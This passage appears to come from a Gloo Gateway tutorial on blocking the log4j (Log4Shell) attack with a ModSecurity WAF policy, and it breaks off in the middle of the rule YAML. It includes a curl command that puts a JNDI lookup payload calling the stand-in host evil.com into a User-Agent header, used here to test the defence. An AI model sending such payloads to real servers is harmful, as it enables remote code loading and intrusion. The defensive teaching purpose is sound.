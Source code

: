 1. Refer to following diagram from Swiss CERT to learn how the `log4j` attack works. Note that a JNDI lookup is inserted into a header field that is logged.
![log4j exploit](images/log4j_attack.png)

2. Confirm that a malicious JNDI request currently succeeds. Note the `200` success response. Later, you create a WAF policy to block such requests.

```sh
curl -ik -X GET -H "x-api-key: developer" -H "User-Agent: \${jndi:ldap://evil.com/x}" https://$GLOO_GATEWAY_HTTPS/products
```

3. With the Gloo WAF policy custom resource, you can create reusable policies for ModSecurity. Review the `log4j` WAF policy and the frontend route table. Note the following settings.

* In the route table, the top level route has the label `ingress: all`. The WAF policy applies to ALL routes through the ingress gateway.
* In the WAF policy config, the default core rule set is disabled. Instead, a custom rule set is created for the `log4j` attack.

```yaml
kubectl apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4jshell
  namespace: gloo-gateway
spec:
  applyToRoutes:
  - route:
      labels:
        ingress: all ##### NOTE
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |-
```
